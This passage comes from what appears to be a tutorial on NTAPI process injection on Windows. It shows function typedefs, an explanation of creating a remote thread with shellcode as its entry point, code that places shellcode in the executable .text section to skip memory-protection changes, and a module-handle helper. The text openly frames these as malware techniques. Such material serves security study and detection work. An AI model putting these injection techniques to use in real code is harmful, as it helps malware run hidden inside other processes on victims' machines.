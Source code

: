 *   Creates a remote thread in the target process.
*   `**StartRoutine**`: Address of the entry point (e.g., shellcode).
*   `**ProcessHandle**`: Target process handle.

**5\. Freeing Memory**

typedef NTSTATUS(NTAPI\* NtFreeVirtualMemory)(  
    \_In\_ HANDLE ProcessHandle,  
    \_Inout\_ PVOID\* BaseAddress,  
    \_Inout\_ PSIZE\_T RegionSize,  
    \_In\_ ULONG FreeType  
);

*   Releases allocated memory in the target process.

**6\. Waiting for a Thread**

typedef NTSTATUS(NTAPI\* NtWaitForSingleObject)(  
    \_In\_ HANDLE Handle,  
    \_In\_ BOOLEAN Alertable,  
    \_In\_opt\_ PLARGE\_INTEGER Timeout  
);

*   Waits for an object (e.g., a thread) to complete.

By defining these NTAPI functions and structures, the `ntfinal.h` file allows seamless interaction with lower-level Windows mechanisms. This abstraction makes it possible to execute advanced malware techniques like NTAPI Injection.

- - -

### Step-by-Step Breakdown of Key NTAPI Functions:

#### 1\. Setting Up the Environment

#include "ntfinal.h"  
#pragma section(".text")  
\_\_declspec(allocate(".text")) CONST UCHAR shell\[\]

*   **ntfinal.h**: This header file contains function prototypes for the NTAPI functions used in the program (`NtOpenProcess`, `NtAllocateVirtualMemory`, etc.).
*   `**#pragma section(".text")**`: Defines a custom memory section. This is often used in malware to hide code or control how sections are allocated.
*   By placing the shellcode in the .**text** section:
*   The shellcode was loaded with execute permissions directly.
*   The operating system treated it as code, simplifying execution without additional memory protection changes.

- - -

#### 2\. Fetching Module Handles

HMODULE GetMod(IN LPCWSTR mod) {  
    HMODULE hmod = NULL;  
    hmod = GetModuleHandleW(mod);  
    if (hmod == NULL) {  
        printf("\[-\] Couldn't get a handle, error:%ld \\n", GetLastError());  
        return NULL;  
    }  
    return hmod;  
}
